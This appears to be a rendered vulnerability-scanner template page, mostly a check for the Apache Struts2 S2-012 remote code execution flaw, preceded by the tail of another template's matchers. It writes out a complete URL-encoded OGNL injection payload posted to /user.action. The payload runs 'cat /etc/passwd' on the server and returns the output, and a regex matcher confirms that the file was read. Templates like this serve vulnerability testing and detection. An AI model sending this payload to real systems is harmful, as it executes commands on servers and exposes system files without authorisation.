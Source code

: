 ### Matchers

**Type - status**

- condition - or
- status
  1. 200
  2. 400

**Type - regex**

- part - body
- regex
  1. ((u|g)id|groups)=[0-9]{1,4}\([a-z0-9]+\)

**Payloads**- params

---

# Apache Struts2 S2-012 RCE

## Description

- Apache Struts Showcase App 2.0.0 through 2.3.13, as used in Struts 2 before 2.3.14.3, allows remote attackers to execute arbitrary OGNL code via a crafted parameter name that is not properly handled when invoking a redirect.
- severity - critical
- tags - cve,cve2013,apache,rce,struts,ognl

## Requests

- Method - POST
- Method - POST

### URL

- {{BaseURL}}/user.action
  - name=%25%7B%23a%3D%28new+java.lang.ProcessBuilder%28new+java.lang.String%5B%5D%7B%22cat%22%2C+%22%2Fetc%2Fpasswd%22%7D%29%29.redirectErrorStream%28true%29.start%28%29%2C%23b%3D%23a.getInputStream%28%29%2C%23c%3Dnew+java.io.InputStreamReader%28%23b%29%2C%23d%3Dnew+java.io.BufferedReader%28%23c%29%2C%23e%3Dnew+char%5B50000%5D%2C%23d.read%28%23e%29%2C%23f%3D%23context.get%28%22com.opensymphony.xwork2.dispatcher.HttpServletResponse%22%29%2C%23f.getWriter%28%29.println%28new+java.lang.String%28%23e%29%29%2C%23f.getWriter%28%29.flush%28%29%2C%23f.getWriter%28%29.close%28%29%7D

### Matchers

**Type - regex**

- regex
  1. root:.\*:0:0:

**Type - status**
